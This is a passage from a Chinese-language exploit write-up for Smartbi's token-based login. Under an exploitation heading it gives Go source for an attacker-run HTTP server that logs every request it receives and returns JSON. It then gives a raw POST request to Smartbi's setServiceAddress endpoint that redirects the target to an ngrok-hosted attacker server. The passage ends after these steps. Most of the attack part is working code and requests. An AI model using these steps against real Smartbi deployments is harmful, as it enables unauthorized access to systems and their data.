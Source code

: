 
该方法用于通过`token`进行登录，它会根据传入的`token`从数据库中加载用户登录信息，判断`token`是否有效，并根据登录信息中的用户名来执行登录操作。同时，在登录过程中，会将会话 ID 加入到登录信息的扩展字段中，以便进行后续的会话管理。

## 漏洞利用

首先在自己服务器上起一个 HTTP 服务，当然也可以起在本地，利用某些内网穿透服务对外暴露本地 HTTP 服务来达到同样的效果。该 HTTP 服务将接收任意请求，均返回 200 状态码和 JSON 内容类型。

```go
package main

import (
	"encoding/json"
	"fmt"
	"io"
	"net/http"
)

func main() {
	http.HandleFunc("/", handleRequest)
	fmt.Println("Server is running on *:8088")
	http.ListenAndServe(":8088", nil)
}

func handleRequest(w http.ResponseWriter, r *http.Request) {
	printHTTPRequest(r)
	w.WriteHeader(http.StatusOK)
	w.Header().Set("Content-Type", "application/json")
	response := map[string]string{"message": "Hello, this is a response in JSON!"}
	jsonResponse, _ := json.Marshal(response)
	w.Write(jsonResponse)
}

func printHTTPRequest(r *http.Request) {
	fmt.Println("--- Received HTTP Request ---")
	fmt.Printf("%s %s %s\n", r.Method, r.URL.String(), r.Proto)
	for key, value := range r.Header {
		fmt.Printf("%s: %s\n", key, value)
	}
	body, _ := io.ReadAll(r.Body)
	fmt.Printf("\n%s\n", body)
	fmt.Println("---------------------------")
}
```

向目标站点发送`"SERVICE_ADDRESS"`，注意`Content-Type`标头。

```text
POST /smartbi/smartbix/api/monitor/setServiceAddress HTTP/1.1
Host:
User-Agent: Mozilla/5.0
Connection: close
Content-Length: 40
Content-Type: text/plain
Accept-Encoding: gzip, deflate

<https://hz29-03-542-6-825.ngrok-free.app>
```
